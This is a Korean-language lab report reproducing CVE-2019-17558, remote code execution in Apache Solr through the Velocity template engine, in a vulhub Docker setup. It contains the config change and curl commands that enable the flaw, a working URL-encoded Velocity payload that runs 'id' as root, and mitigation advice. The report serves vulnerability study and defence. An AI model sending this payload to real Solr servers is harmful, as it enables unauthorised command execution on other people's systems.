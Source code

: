 # CVE-2019-17558 - Apache Solr Velocity Template RCE

## 개요

Apache Solr 5.0.0 ~ 8.3.1 버전에서는 `VelocityResponseWriter` 기능을 악용하여 원격 코드 실행(RCE)이 가능한 취약점이 존재한다. 본 보고서는 공식 PoC 흐름을 기반으로 해당 취약점을 Docker 환경에서 실습을 통해 재현한 결과를 포함하고 있다.

- 취약점 번호: [CVE-2019-17558](https://nvd.nist.gov/vuln/detail/CVE-2019-17558)
- 영향 버전: Apache Solr 5.0.0 ~ 8.3.1
- PoC 출처: vulhub / GitHub 공개 PoC

---

## 환경 구성

### 사용 기술

- Docker, docker-compose
- Vulhub의 CVE-2019-17558 실습 환경
- 브라우저 기반 확인

### 환경 구성

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose up -d
```

Apache Solr는 8983번 포트에서 실행됨. 브라우저에서 [http://localhost:8983](http://localhost:8983) 로 접근 가능.

---

## 취약점 재현 절차

### 1. Core 생성

Solr core를 `demo`라는 이름으로 생성한다. (해당 환경에는 이미 생성되어 있다.)

```bash
curl "http://localhost:8983/solr/admin/cores?action=CREATE&name=demo&configSet=_default"
```

![img1](./img1.png)

---

### 2. Velocity 템플릿 기능 활성화

#### velocity.json 파일 생성: 

```json
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": true,
    "params.resource.loader.enabled": true
  }
}
```

#### curl을 이용한 설정 적용:

```bash
curl -X POST http://localhost:8983/solr/demo/config   -H "Content-Type: application/json"   --data-binary "@velocity.json"
```

응답 예시:
```json
{
  "responseHeader": {
    "status": 0
  }
}
```

![img2](./img2.png)
---

## 취약점 트리거

브라우저 주소창에 아래 URL을 입력하여 악의적인 Velocity 템플릿을 실행시킴:

```
http://localhost:8983/solr/demo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)%20%23set($rt=$x.class.forName(%27java.lang.Runtime%27))%20%23set($chr=$x.class.forName(%27java.lang.Character%27))%20%23set($str=$x.class.forName(%27java.lang.String%27))%20%23set($ex=$rt.getRuntime().exec(%27id%27))%20$ex.waitFor()%20%23set($out=$ex.getInputStream())%20%23foreach($i%20in%20[1..100])$str.valueOf($chr.toChars($out.read()))%23end
```

---

## 결과 확인

RCE가 성공하면 다음과 같은 `id` 명령의 결과가 응답에 포함되어 브라우저에 표시된다:

```
uid=0(root) gid=0(root) groups=0(root)
```

![img3](./img3.png)

---

## 결론 및 보안 권고

본 취약점은 Solr에서 사용자 정의 템플릿을 허용할 경우 발생할 수 있는 위험을 보여준다.  
시스템 명령이 Java Velocity 엔진을 통해 실행될 수 있으며, 다음과 같은 조치가 필요하다:

- `params.resource.loader.enabled`를 기본적으로 `false`로 유지
- VelocityResponseWriter 사용 금지 또는 인증된 관리자만 설정 변경 가능하도록 제한
- Solr 최신 버전(8.4 이상) 업그레이드 권고

---

## 참고

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558  
- https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558  
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133  
